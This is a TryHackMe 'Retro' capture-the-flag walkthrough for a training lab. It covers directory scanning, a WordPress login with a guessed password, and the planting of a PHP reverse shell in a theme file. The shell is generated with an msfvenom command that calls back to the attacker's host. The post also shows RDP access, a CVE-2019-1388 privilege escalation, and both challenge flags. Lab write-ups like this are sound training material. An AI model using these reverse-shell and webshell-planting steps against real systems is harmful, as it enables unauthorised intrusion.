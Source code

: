```yaml
---
title: Retro Write-up | TryHackMe
slug: retro
author: Utkarsh M
date: '2022-06-15'
description: "TryHackMe Retro walkthrough and solution."
categories:
  - TryHackMe
tags:
  - write up
  - tryhackme
  - ctf
  - hard
  - red team

---
```


![screenshot](/assets/img/thm/retro/head.img)

We can see that a webserver is hosted on the machine.

While waiting for the recommended time, :) let’s run a gobuster directory scan:

```bash
gobuster dir --wordlist=/usr/share/dict/directory-list-2.3-medium.txt --url=http://10.10.36.56/
```

we get /retro as one of the results. It leads to a webpage. :)
lets run a threader3000 scan on the background.

```bash
python threader3000
10.10.36.56
```

![screenshot](/assets/img/thm/retro/1.png)

Running the suggested nmap scan with curent gobuster scan results:

![screenshot](/assets/img/thm/retro/2.png)

hmm :P So the site is a wordpress site. From the posts we can see that wade is user of the wordpress. Lets check out for different pages.

![screenshot](/assets/img/thm/retro/3.png)

parzival ends up working as the password. xD

Hmm, :) we can access Appearance->Theme editor. ;) Let’s use a php-reverse-shell. I am going to change 404.php with the reverse shell code. :)

Setting up a netcat listener:

```bash
nc -lvnp 1234
```

The usual php-reverse-shell that I use was giving issues so I generated a new one using msfvenom:

```bash
msfvenom -p php/reverse_php LHOST=10.17.47.158 LPORT=4444 -f raw -o mew.php
```

After setting up a netcat listener for the same. :)

:) we finally get access to the system but as user: iusr

![screenshot](/assets/img/thm/retro/4.png)

The shell just keeps on dying. :-;

Hmm, :) Trying to connect to the server via rdp using the wade’s wordpress credential works

```bash
xfreerdp /u:wade /p:parzival /cert:ignore /v:10.10.36.56 /workarea
```

![screenshot](/assets/img/thm/retro/5.png)

First Flag on desktop:

```
3b99fbdc6d430bfb51c72c651a261927
```

There is a bookmark in chrome about a vulnerability: [CVE-2019–1388](https://nvd.nist.gov/vuln/detail/CVE-2019-1388)

:) Looking at this Video regarding the vulnerability:

<iframe width="560" height="315" src="https://www.youtube.com/embed/3BQKpPNlTSo" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture" allowfullscreen></iframe>

the file in the recycle bin matches the one in the video, recovering it and following the procedure to get system previleges, we can get our final flag. :)

```
7958b569565d7bd88d10c6f22d1c4063
```
